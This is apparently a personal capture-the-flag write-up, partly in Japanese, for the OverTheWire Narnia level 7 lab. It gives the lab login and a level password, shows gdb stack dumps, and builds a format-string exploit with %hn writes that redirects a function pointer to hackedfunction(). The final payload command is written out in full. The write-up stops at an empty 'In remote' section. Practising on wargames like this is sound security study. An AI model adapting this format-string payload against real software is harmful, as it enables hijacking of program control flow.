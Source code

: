 ```sh
$ ssh -p 2226 narnia7@narnia.labs.overthewire.org
```

password: ahkiaziphu

hackedfunction(\x06\x87\x04\x08)に飛ばす


## In local

"A"\*140
```
gdb-peda$ x/100wx $esp
0xffffbdd0: 0xffffbdf0  0x00000080  0xffffc1f6  0xffffbe48
0xffffbde0: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0 <- addr of goodfunction()
0xffffbdf0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe00: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe50: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe60: 0x41414141  0x41414141  0x41414141  0x00414141
0xffffbe70: 0x00000002  0xffffbf34  0xffffbe98  0x080486d8
```

format string attack

"A" * 4

```
gdb-peda$ x/100wx $esp
0xffffbe50: 0xffffbe70  0x00000080  0xffffc27e  0xffffbec8
0xffffbe60: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0
0xffffbe70: 0x00000000  0x00000000  0x00000000  0x00000000
```

after snprintf()

```
gdb-peda$ x/100wx $esp
0xffffbe50: 0xffffbe70  0x00000080  0xffffc27e  0xffffbec8
0xffffbe60: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0
0xffffbe70: 0x41414141  0x00000000  0x00000000  0x00000000
```

<b>Use format string attack</b>

書き込みたいポインタのアドレス -> 0xffffbefc(buffer)

よって、[addr + 2][addr]は
\xfe\xbe\xff\xff\xfc\xbe\xff\xff になる

次に、書き込むアドレスの値はhackedfunction()の値である0x8048706

HOB(high order bytes) -> 0x0804
LOB(low order bytes)  -> 0x8706

HOB < LOB なので、%.[HOB - 8]x を求める。

HOB - 8 -> 0x7fc -> 2044

%.2044x

次に %[offset]$hn -> %6\$hn


%.[LOB - HOB]x

LOB - HOB -> 0x7f02 -> 32514

%.32514x

次に %[offset + 1]$hn -> %7\$hn

$(echo -e "\xfe\xbe\xff\xff\xfc\xbe\xff\xff"%.2044x%6\$hn%.32514x%7\$hn)


アドレスを"\xde\xbe\xff\xff\xdc\xbe\xff\xff"にしたらいけた

なんで0x20分ずれてる？？？ ローカルだとなぜか[(addr-0x20) + 2][(addr-0x20)]になってる

./narnia7 $(echo -e "\xde\xbe\xff\xff\xdc\xbe\xff\xff")%.2044x%6\$hn%.32514x%7\$hn


## In remote
